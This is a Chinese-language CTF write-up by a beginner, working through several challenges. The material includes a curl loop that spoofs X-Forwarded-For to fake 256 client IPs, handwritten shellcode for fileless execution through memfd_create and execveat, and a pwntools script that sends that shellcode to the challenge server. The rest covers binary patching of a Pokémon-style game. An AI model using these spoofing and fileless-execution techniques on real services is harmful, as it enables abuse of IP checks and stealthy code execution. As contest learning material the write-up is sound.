







# 0x01 总结
纯萌新，第一次打ctf，总结了几道二进制的题

本文也发布于[我的 blog ](https://lyq.blogd.club/2021/10/31/hackgame-2021-wp/)

# 0x02 助力
这题多次使用相同ip助力，会显示`重复的/8地址`。  


F12看下post请求，payload为`ip=*.*.*.*`。所以，既然`/8`地址重复，那我们手动post，发送`ip=0.0.0.0`到`ip=255.0.0.0`的payload，共256个（后来发现，题目也必须256个人助力，正好）。

但还有一个问题，后端会检测ip，跟前端发送的ip对比，对比不通过也是不行的。  

所以在发送请求的时候加上`X-Forwarded-For`的header，构造假的client ip，这样后端拿到的client ip和前端检测的ip就对的上了。  

最后的exp如下：
```
#!/bin/bash
for i in {0..255}
do
    while true
    do
        curl -s --header "X-Forwarded-For: $i.0.0.0" -X POST -d "ip=$i.0.0.0" http://邀请链接/ | grep "成功"
        if [ $? = 0 ]
        then
            echo "助力成功"
            break
        else
            echo "助力失败 休息5秒"
            sleep 5
        fi
    done
done
```

# 0x03 Amnesia
这题有趣

## 轻度失忆
不是太难，`.data`放初始化的全局变量，`.rodata`放只读常量。所以申请几个栈上的int变量，然后给int变量赋值，memcpy到堆上，再printf即可。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
        int a = 0x6c6c6548;     /* Hell  */
        int b = 0x77202c6f;     /* o, w  */
        int c = 0x646c726f;     /* orld  */
        int d = 0x00000021;     /* !\0   */

        char *str = (char *)malloc(16);
        memcpy(str, &a, 4);
        memcpy(str + 4, &b, 4);
        memcpy(str + 8, &c, 4);
        memcpy(str + 12, &d, 4);

        printf(str);
        return 0;
}
```
## 重度失忆
这题要debug，把.text段清空后，`_start`函数没了。。（这程序不直接残疾了吗？）  

一开始我想能不能把`_start`函数移到别的段，比如这样`__attribute__((section("my_section")))`。但这样`_start`符号重定义了，不加`-nostartfiles`编译选项时编译器不给过，编译选项又改不了，所以这样不行。  

然后又想着能不能覆盖.fini段，但是更改不了编译脚本，不行。  

最后debug了一下清空了.text段的程序，意外发现一直走到.fini段才段错误。恍然大悟，`0000`反汇编虽然是`add byte ptr [eax], al`，但似乎对程序运行没有什么影响....  

所以，把函数放到.fini段之前，.text段之后，然后坐等程序执行到这个函数，不就行了吗？  

但一开始直接写存在别的section的函数，还是会Segmentation Fault，因为会调用.text段的`__x86.get_pc_trunk.bx`，上去再下来Segmentation Fault。  

想了很久，试了内联汇编，发现不会调用`__x86.get_pc_trunk.bx`了。如下：

```
#include <stdio.h>
#include <stdlib.h>

/*
void __attribute__((section("magic_section"))) none() {
    ;
}
*/

void __attribute__((section("magic_section"))) main() {
        __asm__(
            "push $0x21\n"
            "push $0x646c726f\n"
            "push $0x77202c6f\n"
            "push $0x6c6c6548\n"
            "mov $4, %eax\n"
            "mov $1, %ebx\n"
            "mov %esp, %ecx\n"
            "mov $0xd, %edx\n"
            "int $0x80\n"

            "movl $1, %eax\n"
            "movl $0, %ebx\n"
            "int $0x80\n"
        );
}

```

但还是Segmentation Fault。。。用gdb看下。  





好家伙，看来是指令解析有毛病，塞个啥都不干的函数看看（取消上面none函数的注释）。  



`00c3`， `add bl, al`没毛病，这样不会Segmentation Fault了，所以搞定了。

# 0x04 只读文件系统
这题搞的时间有点长，本地很快就搞好了，完全ok，但是远程不行，卡了我很长时间。  

主要就是考无文件执行，翻了一下glibc的源码，它提供了一个fexecve函数[(这里)](https://sourceware.org/git/?p=glibc.git;a=blob;f=sysdeps/unix/sysv/linux/fexecve.c;h=4dfcaeedc16f1788abb57f79bfa8bdcd237f5e5c;hb=HEAD#l44)，可以接受文件描述符作为参数，然后执行程序。  

结合这个commit：


意思是现在要直接增加一个execveat syscall wrapper。之前用execveat系统调用实现了fexecve（如果内核支持），可以不用构建`/proc/self/fd/*`文件名，直接用fd执行。  

另外，只读文件系统，文件只能放在内存里，所以用memfd_create系统调用，创建一个在内存里的匿名文件。  

整理一下，Payload要做这些事：  

1. 调用mmap syscall，在堆上申请内存
2. 调用read syscall，从stdin把hello读到申请的内存里
3. 调用memfd_create syscall，创建一个memfd
4. 调用execveat执行memfd，替换当前进程为hello

当然这样本地就可以跑通了，但是远程hello总是不完整，我甚至把写入的hello打到stdout上看看到底咋回事，看起来总是没法一次性读完hello的16744个字节。  

想了半半天，甚至还问了群里人是不是payload有长度限制，也怀疑是通过tcp传输一次性不能读那么多。最后看了下pwntools，用了`pwnlib.shellcraft.amd64.linux.readn(fd, buf, nbytes)` (reads exactly nbytes bytes from file descriptor fd into the buffer buf)，这才搞定。

shellcode如下，部分用pwntools生成的，部分手写（又不是不能用.jpg），printf buffer是为了验证写入的hello完整性的。
```
section .text
global _start
_start:
    ; mmap new buffer
    push 0x22
    pop r10
    push -1
    pop r8
    mov r9d, 0
    push 9
    pop rax
    mov edi, 0x1010101
    xor edi, 0x24545101
    push 7
    pop rdx
    mov esi, 0x1100101
    xor esi, 0x1110101
    syscall

    ; read stdin to buffer
    xor edx, edx
    mov dx, 0x4168
    mov esi, 0x1010101 ; /* 626348032 == 0x25555000 */
    xor esi, 0x24545101

readn_loop_2:
    ; /* call read(0, 'rsi', 'rdx') */
    xor eax, eax ;/* SYS_read */
    xor edi, edi ;/* 0 */
    syscall
    add rsi, rax
    sub rdx, rax
    jnz readn_loop_2

    ; printf buffer
    mov rsi, 0x25555000
    mov rdi, 1
    mov rdx, 0x4168
    ;/* call write() */
    push 1 ; /* 1 */
    pop rax
    syscall

    ; create memfd
    xor eax, eax
    mov eax, 0x13f      ; syscall 0x13f
    push 0x00666c65     ; elf
    mov rdi, rsp        ; rdi -> 'elf'
    mov rsi, 0
    syscall
    
    ; write buffer to memfd
    mov edi, eax ; fd
    xor edx, edx
    mov dx, 0x4168      ; size
    mov esi, 0x1010101  ;/* 626348032 == 0x25555000 */
    xor esi, 0x24545101 ; source
    push 1              ; sys_write
    pop rax
    syscall

    ; execveat hello
    ; %rdi	%rsi	%rdx	%r10	%r8
    push 0
    mov rsi, rsp
    xor rdx, rdx
    xor r10, r10
    mov r8, 0x1000
    mov eax, 0x142
    syscall
```

生成shellcode
```
nasm -felf64 -o shellcode.o shellcode.asm
ld -o shellcode shellcode.o
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d ' '| tr -s ' '| tr '\t' ' '| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
```

得到：
```
\x6a\x22\x41\x5a\x6a\xff\x41\x58\x41\xb9\x00\x00\x00\x00\x6a\x09\x58\xbf\x01\x01\x01\x01\x81\xf7\x01\x51\x54\x24\x6a\x07\x5a\xbe\x01\x01\x10\x01\x81\xf6\x01\x01\x11\x01\x0f\x05\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x31\xc0\x31\xff\x0f\x05\x48\x01\xc6\x48\x29\xc2\x75\xf2\xbe\x00\x50\x55\x25\xbf\x01\x00\x00\x00\xba\x68\x41\x00\x00\x6a\x01\x58\x0f\x05\x31\xc0\xb8\x3f\x01\x00\x00\x68\x65\x6c\x66\x00\x48\x89\xe7\xbe\x00\x00\x00\x00\x0f\x05\x89\xc7\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x6a\x01\x58\x0f\x05\x6a\x00\x48\x89\xe6\x48\x31\xd2\x4d\x31\xd2\x41\xb8\x00\x10\x00\x00\xb8\x42\x01\x00\x00\x0f\x05
```

最后的exp.py如下：
```
from pwn import *

context.arch = 'amd64'

print('[-]: run process')
p = remote('202.38.93.111', 10106)
p.recvuntil(b'token:')
p.sendline(b'token' + b'\n')
p.recvuntil(b'Checking...\n')

shellcode = b"\x6a\x22\x41\x5a\x6a\xff\x41\x58\x41\xb9\x00\x00\x00\x00\x6a\x09\x58\xbf\x01\x01\x01\x01\x81\xf7\x01\x51\x54\x24\x6a\x07\x5a\xbe\x01\x01\x10\x01\x81\xf6\x01\x01\x11\x01\x0f\x05\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x31\xc0\x31\xff\x0f\x05\x48\x01\xc6\x48\x29\xc2\x75\xf2\xbe\x00\x50\x55\x25\xbf\x01\x00\x00\x00\xba\x68\x41\x00\x00\x6a\x01\x58\x0f\x05\x31\xc0\xb8\x3f\x01\x00\x00\x68\x65\x6c\x66\x00\x48\x89\xe7\xbe\x00\x00\x00\x00\x0f\x05\x89\xc7\x31\xd2\x66\xba\x68\x41\xbe\x01\x01\x01\x01\x81\xf6\x01\x51\x54\x24\x6a\x01\x58\x0f\x05\x6a\x00\x48\x89\xe6\x48\x31\xd2\x4d\x31\xd2\x41\xb8\x00\x10\x00\x00\xb8\x42\x01\x00\x00\x0f\x05"

print('[-]: send shellcode')
p.sendline(shellcode)

with open('../hello', 'rb') as f:
    hello = f.read()

p.send(hello)

p.interactive()
```

# 0x05 catchGPA
做到这题，感觉爷青回，小时候的口袋妖怪，都是回忆。  

拖到ida里，分析了下，先加球（我不知道啥经典作弊码的）！  


然后用101改了带师球的数量，笑死。  


但是试了5、6次，抓不住GPA。。于是再次patch，这次发现main里面会执行fail()函数，于是一把梭哈，直接把fail()改成decrypt()。  



这次可以了，结果发现flag一闪而过。。。草，patch的不好，遂录屏、暂停拿到flag（滑稽.jpg）
  

其实是不是可以更暴力一点，把init改成decrypt呢？
